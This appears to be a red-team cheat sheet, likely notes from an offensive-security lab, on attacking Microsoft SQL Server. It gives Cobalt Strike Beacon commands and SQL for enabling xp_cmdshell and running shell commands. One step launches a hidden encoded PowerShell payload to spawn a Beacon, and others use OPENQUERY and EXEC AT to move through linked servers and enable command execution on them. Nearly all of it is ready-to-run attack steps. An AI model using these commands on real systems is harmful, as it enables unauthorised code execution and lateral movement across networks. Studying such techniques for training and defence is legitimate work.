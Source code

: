 ### MS SQL Command Execution

###### <font style="color:#00b3ff">The xp_cmdshell procedure can be used to execute shell commands on the SQL server.  Invoke-SQLOSCmd from PowerUpSQL provides a simple means of using it</font> 
```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

###### <font style="color:#00b3ff">Enumerate the current state of xp_cmdshell</font> 
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

###### <font style="color:#00b3ff">Enable xp_cmdshell</font> 
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

###### <font style="color:#00b3ff">Spawning a Beacon</font> 
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

---
### MS-SQL Lateral Movement

###### <font style="color:#00b3ff">Discover any links that the current instance has</font> 
```
SELECT * FROM master..sysservers;
```

###### <font style="color:#00b3ff">Query this remote instance over the link using OpenQuery (The use of double and single quotes are important when using OpenQuery.)</font> 
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

###### <font style="color:#00b3ff">Query its configuration (e.g. xp_cmdshell))</font> 
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

###### <font style="color:#00b3ff">If xp_cmdshell is disabled, you can't enable it by executing sp_configure via OpenQuery. If RPC Out is enabled on the link (which is not the default configuration), then you can enable xpcmdshell using the following syntax</font> 
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```
